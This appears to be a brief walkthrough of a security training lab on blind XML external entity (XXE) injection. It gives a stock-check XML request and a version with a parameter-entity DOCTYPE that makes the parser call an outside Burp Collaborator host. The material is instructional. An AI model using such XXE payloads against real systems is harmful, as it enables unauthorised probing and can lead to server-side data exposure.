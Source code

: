 # Blind XXE with out-of-band interaction via XML parameter entities

## This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

## To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

from lab 3

### step1

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>
</productId><storeId>1</storeId></stockCheck>
```

### step2

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://2nq8dmq87te46hasvrn51j7vemkd86wv.oastify.com"> %xxe; ]>
<stockCheck><productId>
</productId><storeId>1</storeId></stockCheck>
```
